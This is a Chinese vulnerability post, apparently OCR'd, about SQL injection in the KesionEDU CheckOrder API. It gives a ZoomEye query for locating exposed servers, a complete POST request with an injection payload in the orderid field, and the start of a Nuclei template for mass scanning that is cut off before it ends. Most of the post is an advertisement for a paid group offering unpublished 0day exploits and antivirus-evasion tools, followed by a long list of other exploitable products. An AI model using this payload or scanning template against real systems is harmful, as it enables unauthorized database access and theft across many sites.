 0x02 漏洞描述       SQL注入被广泛用于非法入侵网站服务器，获取网站控制权。它是应用层上的一种安全漏洞。通常在设计存在缺陷的程序中，对用户输入的数据没有做好过滤，导致恶意用户可以构造一些SQL语句让服务器去执行，从而导致数据库中的数据被窃取，篡改，删除，以及进一步导致服务器被入侵等危害。0x03 Zoomeye语法http.body="/KS_Inc/static/edu"0x04 漏洞复现request packet（NucleiPOC在末尾）POST /webapi/APP/CheckOrder HTTP/1.1Host:User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36Connection: closeContent-Length: 242Accept: application/json, text/javascript, */*; q=0.01Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Content-Type: application/x-www-form-urlencoded; charset=UTF-8Priority: u=0X-Requested-With: XMLHttpRequest{"orderid":"1' AND 7755 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(112)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (7755=7755) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(107)+CHAR(107)+CHAR(113)))-- Ahbw","apptoken":"1","ordertype":"1"}Nuclei批量检测POC（末尾有Nuclei批量检测POC）‍‍‍0x05 修复建议关闭互联网暴露面或接口设置访问权限，官方已经推出新版本，建议升级到最新版。0x06 内部VIP星球介绍-V1.3        需要加入内部知识星球可点击下方链接，资源包含但不限于网上未公开的1day/0day漏洞(2024 Day漏洞库更新漏洞共3200+）2024最新SRC/CNVD/Edu实战挖掘技巧报告，红队内网横向渗透，代码审计，JS逆向，SRC培训等课程。圈子对新人友好，加入圈子拥有FOFA shadan 360Quake 零零信安 Hunter等等高级会员账号，SRC文档，武器库。圈子里面资料价值至少在10K以上，目前星球内部主题1100+，资源3w+，其他和网盘资源10w+并持续更新中，加入星球快人一步获取最新POC，越早加入价格越低。👉点击了解--->>>>内部VIP知识星球福利介绍V1.3版本-星球介绍👈本月内部星球新增漏洞(每日更新0day/1day)科汛网校KesionEDU CheckOrder SQL注入漏洞杭州平治科技一卡通系统 AddPkFreePartyMFCar 存在SQL注入漏洞虹安Heimdall DLP数据泄漏防护系统 pushSetup.do SQL注入漏洞月子会所ERP管理云平台 GetData.ashx SQL注入致RCE漏洞北京中犇科技有限公司数字化智能中台系统login存在SQL注入漏洞博斯外贸管理软件V6.0 logined.jsp存在SQL注入漏洞企企通互联网解决方案系统srm getuserinfo 存在信息泄露漏洞快云服务器小助手 getdetail 存在任意文件文件读取漏洞赛诸葛数字化智能中台系统 login 存在SQL注入漏洞网神SecFox运维安全管理与审计系统存在 FastJson反序列化RCE漏洞用友-友数聚科技CPAS审计管理系统V4 getCurserIfAllowLogin 存在SQL注入漏洞西联软件移动门店管理系统 StreamToFile 存在文件上传致RCE漏洞博斯外贸管理软件V6.0 loginednew.jsp 存在SQL注入漏洞网上阅卷系统存在弱口令漏洞卓软计量业务管理平台 image.ashx 任意文件读取漏洞WordPress File Upload 插件存在任意文件读取漏洞当虹科技 Arcvideo Live存在任意文件上传漏洞TENDA 11N无线路由器Index 越权访问漏洞勤云科技期刊采编CMS存在SQL注入漏洞全媒体采编平台V3.0-工作平台UserSelect未授权访问漏洞EasyCVR 视频管理平台adduser存在任意用户添加漏洞协众OA系统接口checkLoginQrCode存在SQL注入漏洞云连POS-ERP管理系统ZksrService存在SQL注入漏洞Craft CMS 模板注入导致 Rce漏洞复现(CVE-2024-56145)致远OA correct任意文件读取（后台）漏洞蓝凌EKP系统webservice多个任意文件读取漏洞（合集）蓝凌EKP系统接口sysFormMainDataInsystemWebservice存在任意文件读取漏洞灵当CRM getMyAmbassr 存在SQL注入漏洞灵当CRM uploadfile.php 存在任意文件上传致RCE漏洞用友-友数聚科技CPAS审计管理系统V4wnPlugs存在任意文件读取安科瑞-智能环保云平台 getenterpriseinfoy 存在SQL注入漏洞神州数码DCME-320 未授权访问漏洞神州数码DCME-320 online_list.php任意文件读取漏洞蓝凌EIS fl_define_edit.aspx存在SQL注入漏洞CyberPanel存在身份认证 命令注入漏洞泛微-云桥e-Bridge checkMobile SQL注入漏洞方正畅享全媒体新闻采编系统 reportCenter 存在SQL注入漏洞方正畅享全媒体新闻采编系统 screen存在SQL注入漏洞用友U8 Cloud ReleaseRepMngAction 存在SQL注入漏洞云连POS-ERP管理系统wnload.action存在任意文件读取漏洞CRMEB save_basics存在任意文件下载漏洞(CVE-2024-52726)Apache Tomcat 远程代码执行漏洞（CVE-2024-50379）Mitel企业协作平台IDACall存在任意文件读取漏洞短视频系统视频知识付费系统request_by_curl存在前台任意文件读取漏洞飞鱼星路由器htpasswd存在信息泄露漏洞秒优科技供应链管理系Action存在SQL注入漏洞OpenWRT 弱口令登录导致任意文件读取Spring Framework存在目录遍历漏洞(CVE-2024-38819)大华DSS数字监控系统attachmentwnloadAtt.action任意文件读取漏洞海康威视运行管理中心applyST远程代码执行漏洞神州数码DCME-320 online_list.php 任意文件读取漏洞图书馆管理平台Template存在任意文件读取漏洞泛微e-cology 9 x.FilwnloadLocation存在SQL注入漏洞妈妈宝盒-ERP UploadHandler存在任意文件读取漏洞上海汉塔网络科技有限公司上网行为管理系统存在远程命令执行漏洞圣乔ERP系wnloadFile存在任意文件读取漏洞JeecgBoot passwordChange 任意用户密码重置漏洞next.js 存在缓存中毒漏洞(CVE-2024-46982)Cloudlog request_form 存在SQL注入漏洞泛微-云桥e-Bridge addTasteJsonp SQL注入漏洞黄药师药业管理软件XSDService.asmx存在任意文件上传漏洞Apache Struts 存在远程代码执行漏洞(CVE-2024-53677)Sitecore CMS 未经身份验证export 任意文件读取漏洞复现(CVE-2024-6781) 昂捷CRM Cwsuploadpicture任意文件读取漏洞HB1910数字IP程控交换机generate.php存在远程命令执行漏洞 Cleo文件传输软件Synchronization 存在任意文件读取漏洞(CVE-2024-50623)蓝凌OA thirdimsyncforkkwebservice 存在任意文件读取漏洞CVE-2024-53677-S2-067-ALOK.zipDockerUI info 未授权访问漏洞Emlog-Pro 2.4.1最新版存在命令执行漏洞杜特网上订单系统getUserImage SQL注入漏洞DockerUI存在弱口令漏洞蓝凌EIS fl_define_flow_chart.aspx存在SQL注入漏洞中科网威anysec安全网关arping存在后台远程命令执行漏洞用友GRP-U8系统taskmanager_login存在SQL注入漏洞孚盟云 MailAjax.ashx SQL注入漏洞九思OA系统upload_l.jsp存在任意文件上传漏洞用友U8-CRM rellistname Sql注入漏洞安徽生命港湾信息技术有限公司服务配置工具平台wnload 任意文件读取漏洞Yapi存在远程命令执行漏洞玛格泰克科技发展有限公司系统默认口令漏洞圣乔ERP系统 ResultSetConvertor 存在SQL注入漏洞圣乔ERP系统 SingleRowQueryConvertor 存在SQL注入漏洞圣乔ERP系统 存在DwrUtil SQL注入漏洞锁群管理系统key.aspx存在默认cookie登录漏洞用友NC系统接口yerfilewn bill存在SQL注入漏洞畅捷通T-Plus ajaxpro Ufida SQL注入漏洞MitelMiCollab 身份绕过导致任意文件读取漏洞复现WordPress Query Console插件 未授权RCE漏洞复现(CVE-2024-50498) 圣乔ERP系统uploadFile存在任意文件上传漏洞百易云资产管理运营系统 leaseImaRead存在SQL注入 漏洞EasyCVR taillog存在任意文件读取漏洞易宝OA GetUDEFStreamID 存在Sql注入漏洞用友NC yerfilwn SQL注入漏洞(XVE-2024-34596) 三汇SMG 网关管理软件 smgsuperadmin 存在信息泄露漏洞顺景ERP TMScmQuoteGetFile 任意文件读取漏洞PbootCMS tag存在Sql注入漏洞中成科信票务管理系统 ReturnTicketPlance.ashx SQL注入漏洞WordPress ElementorPageBuilder插件 任意文件读取漏洞YourPHPCMS系统login_checkEmail存在sql注入漏洞YourPHPCMS系统Register_checkEmail存在sql注入漏洞华天动力OA系统upload.jsp任意文件上传漏洞同享人力管理管理平台ActiveXConnector.asmx信息泄露漏洞紫光电子档案管理系统 uploadscan 存在Sql注入ProjectSend身份认证绕过漏洞(CVE-2024-11680)Sitecore CMS 未经身份验证任意文件读取漏洞复现(CVE-2024-46938) 科拓全智能停车收费系统T_SellFrom.aspx存在SQL注入漏洞时空WMS-仓储精细化管理系统 ImageAdd.ashx 文件上传致RCE漏洞时空WMS-仓储精细化管理系统 SaveCrash.ashx 文件上传致RCE漏洞信呼OA办公系统后台uploadAction存在SQL注入用友CRM leadconversion 存在SQL注入漏洞用友NC-cartabletimelineList存在SQL注入漏洞电子图书阅读平wnFile存在SQL注入漏洞JeecgBoot getTotalData 存在SQL注入漏洞（CVE-2024-48307）电子资料管理系统 ImageUpload.ashx 文件上传致RCE漏洞苏州科达科技股份有限公司多媒体录播系统存在信息泄露漏洞万能门店小程序管理系统 onepic_uploade 任意文件上传漏洞 圣乔ERP系统NamedParameterSingleRowQueryConvertor.queryForString.dwr存在SQL注入漏洞同享人力资源管理系统 administration 存在sql注入漏洞微信活码系统updateInfos前台未授权任意用户密码修改内部新增一些免杀工具，付费资源渗透工具等...Nuclei-YamlPocid: KesionEDU-CheckOrder-SQLiinfo:  name: KesionEDU-CheckOrder-SQLi  author: HK  severity: high  metadata:    fofa-query: body="/KS_Inc/static/edu"http:  - raw:    - |      POST /webapi/APP/CheckOrder HTTP/1.1      Host:       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0      Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2      Content-Type: application/x-www-form-urlencoded; charset=UTF-8      User-Agent: Mozilla/5.0